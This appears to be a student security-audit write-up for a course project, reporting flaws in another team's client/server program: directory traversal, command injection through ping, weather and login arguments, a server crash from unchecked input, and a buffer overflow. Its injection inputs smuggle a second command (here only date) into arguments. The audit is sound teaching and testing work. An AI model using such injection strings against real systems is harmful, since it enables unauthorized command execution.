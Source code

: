 ## Team7

### Directory Traversal

* No home folders created ?
```
login n
Enter password
pass 1
You've logged in
ls
total 468
-rwxr-x--- 1 njaganna njaganna 116840 Mar 15 18:53 client
-rw-rw-r-- 1 njaganna njaganna  35147 Mar 14 19:49 LICENSE
-rw-rw-r-- 1 njaganna njaganna   1037 Mar 14 19:49 Makefile
drwxr-x--- 2 njaganna njaganna   4096 Mar 15 18:53 obj
-rwxr-x--- 1 njaganna njaganna 305200 Mar 15 18:53 server
-rw-rw-r-- 1 njaganna njaganna    328 Mar 15 19:22 sploit.conf
drwxrwxr-x 2 njaganna njaganna   4096 Mar 14 19:49 src
cd ..
/u/antor/u6/njaganna/CS527Phase2/team7
cd ..
/u/antor/u6/njaganna/CS527Phase2
cd /
/

```

### Command Injection

* ping command doesn't filter ';'

```
ping google.com -c 1";date #"
Thu Mar 15 20:14:21 EDT 2018
```

* weather also has a similar vulnerability
```
weather gotham";date #"
Thu Mar 15 20:21:34 EDT 2018
```

* After the user is logged in, all commands which do not match any predefined command are passed to the shell. Commands are checked to see if they are valid commands using regex, but arguments are only checked for special characters.
```
login n
Enter password
pass 1
You've logged in
login
login: Cannot possibly work without effective root
login ;date
Sat Mar 17 10:44:13 EDT 2018

```

###  Server crash

* login and pass commands do not check if parameters are present or not. This causes the server to crash. As multiple clients are handled using threads, the whole server crashes.
```C
if (command == "login"){
  current_uname = commandLine.substr(6); // Tries to access 6ht position which doesn't exist.
  
if (command == "pass"){
  string pass = commandLine.substr(5); // Similar
```
```
mc08 54 $ ./server 
terminate called after throwing an instance of 'std::out_of_range'
  what():  basic_string::substr: __pos (which is 6) > this->size() (which is 5)
Aborted (core dumped)
mc08 55 $
```

### Buffer Overflow

* The command_buf has a fixed size of 100 bytes. Both input and length are dependent on user input
```C
int is_clean_command(const char *input, int length){
    regex_t re = compile_regex(legal_commands_regex);
    if (is_forbidden_command(input)
        || has_special_characters(strncpy(command_buf, input, length))){
        clear_buf();
        return 0;
    }
```
